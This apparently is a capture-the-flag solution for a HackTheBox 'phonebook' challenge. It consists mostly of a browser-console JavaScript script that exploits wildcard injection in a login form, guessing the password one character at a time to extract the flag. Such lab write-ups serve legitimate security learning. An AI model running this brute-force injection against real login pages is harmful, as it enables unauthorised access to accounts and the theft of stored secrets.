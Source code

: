 # phonebook
You can now login using the workstation username and password! - Reese

```js
// run it in the DevTools Console
(async () => {
    let flag="HTB",dict ="}{ abcdefghijklmnopqrstuvwxyz_0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ!~.?@#$%^&-+=?<>😾".split('')
    while(1) {
        for (var s of dict) {
            const {url:u} = await fetch('/login',{body:new URLSearchParams({username:'*',password:flag+s+'*'}),method:"POST"})
            if (console.log(flag+s)||!u.includes("failed")&&(flag += s)) break
        }
        if (['}','😾'].includes(s)) break
    }
})()
```
